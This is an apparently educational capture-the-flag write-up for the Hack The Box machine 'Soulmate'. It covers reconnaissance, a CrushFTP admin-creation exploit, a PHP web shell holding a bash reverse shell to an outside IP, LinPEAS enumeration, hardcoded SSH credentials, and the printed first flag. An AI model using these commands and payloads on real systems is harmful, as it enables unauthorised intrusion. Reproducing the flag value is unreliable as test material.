# Soulmate

- Link : https://app.hackthebox.com/machines/Soulmate
- Release date : 06.09.2025
- Difficulty : Easy
- Points : 20

## Tools

- nmap
- ffuf
- nc
- ssh

## Exploitation

### Finding the first flag

I started to scan the target with nmap to find if any of the 100 most common ports are open, either TCP or UDP.

```bash
nmap 10.10.11.86 -v -sS -sU --top-ports 100
```



We can see that the TCP port 80 (http) is open. Let's investigate this service.

When browsing to the web page, we get redirected to `http://soulmate.htb`. To access this domain, we need to add it to our `/etc/hosts` file.



After some tests, I found out that the website is not vulnerable. So I decided to run a dns brute-force using `ffuf` to see if there are some subdomains

```bash
ffuf -u http://10.10.11.86 -H "Host: FUZZ.soulmate.htb" -w /usr/share/wordlists/dirb/small.txt -fw 4
```



We can see that there is a subdomain called `ftp`. Let's check it out by adding it to our `/etc/hosts` file.



When browsing to the ftp subdomain, we can see that there is a login form for a service called `CrushFTP`. After some research, I found the version of the service by looking at the page source code.



Then I found an exploit for this version on exploit-db : https://www.exploit-db.com/exploits/52295. This exploit allows us to create a new user with admin privileges by running this command :

```bash
python3 52295.py --target ftp.soulmate.htb --port 80 --exploit --new-user test --password 123 --target-user root
```



We can now log in with user `test` and password `123`.

Now that we are logged in as an admin, we can see which user can modify the website files to try uploading a web shell. By going to `Admin --> User Manager`, we can see that the user `ben` has access to `webProd`.



Now we want to upload our web shell with this user. To do this, we just reset the password of `ben` from the interface.



After logging out and logging back in as `ben`, we can go to the `webProd` folder and upload our web shell php file. The php file is a simple reverse shell :

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.35/1234 0>&1'");  
?>
```



We can now start a netcat listener on our machine and execute the web shell by going to `http://soulmate.htb/shell.php`.

```bash
nc -lvnp 1234
```



We now have to find a vulnerability on this machine to escalate our privileges. So I decided to upload `LinPEAS` on the target to help with the enumeration. First, I downloaded the script on my machine : 

```bash
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

Then I started a python http server to transfer the file to the target.

```bash
python3 -m http.server 8000
```

On the target machine, I used `wget` to download the file. Since we don't have the permissions to write in the current directory, I downloaded it in the `/tmp` folder.

```bash
wget 10.10.14.35:8000/linpeas.sh -O /tmp/linpeas.sh
```

Then I gave it the execution permissions and ran it.

```bash
chmod +x linpeas.sh
./linpeas.sh
```

After a while, I found that there is an ssh service running that could be vulnerable. 



By using the `ps aux` command, I found where the ssh service was running from.



And when reading the start script, we can see that the ssh credentials are hardcoded.

```bash
cat /usr/local/lib/erlang_login/start.escript
```



That's it, we can now connect to the target using ssh with the credentials and find the first flag.



**First flag** : `3910dd53b3c4f9a6fdb0c66764b9584e`